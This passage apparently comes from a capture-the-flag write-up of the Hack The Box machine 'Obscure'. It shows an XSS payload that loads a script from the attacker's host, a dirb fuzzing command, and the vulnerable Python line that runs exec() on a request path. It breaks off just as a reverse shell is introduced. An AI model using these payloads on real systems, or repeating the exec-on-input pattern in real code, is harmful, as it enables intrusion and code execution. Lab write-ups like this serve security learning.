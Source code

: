 ```
http://10.10.10.168:8080/administrator/popups/sectionswindow.php?type=web&link=\"<script src="http://[mydockerip]:8000/test.js"></script>
```

sure enough, `sup` flashed on the screen.

##### dirb

we need to locate `SuperSecureServer.py` - half the battle is won since we already know the filename. maybe we'll get lucky running this against one of the common directory wordlists? 

`gobuster` is usually my go to, but it didn't work w/ this box because of the invalid ('obfuscated') server response returned from `obscure.htb` - nevertheless, any dir fuzzing utility ought to do here.

in my case i used [dirb](https://tools.kali.org/web-applications/dirb)

```
dirb http://10.10.10.168:8080/ /path/to/wordlist/file -X /SuperSecureServer.py
```

took me a minute to figure out that the `-X` extensions flag _also_ works for full filenames.

results:

```
/var/SuperSecureServer/SuperSecureServer.py
/var/SuperSecureServer/DocRoot/develop/SuperSecureServer.py
```

## super secure server

next, we take a look at the file and see that that XSS vulnerability is more than just a client-side issue. the notable line is `143`:

```
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
cwd = os.path.dirname(os.path.realpath(__file__))
docRoot = os.path.join(cwd, docRoot)
```

we've already confirmed the XSS vulnerability, now it appears we can actually inject code that makes server-side requests as well. since we know the site's running python, why not try to create a reverse shell?

i created a test file in python to 'sanitize' my shell input, but all we're ultimately doing is encoding it: 

```
import os
path = input("# ")
info = "output = 'Document: {}'" # Keep the output for later debug
print(info.format(path))
exec(info.format(path))
```

a basic reverse shell in python:
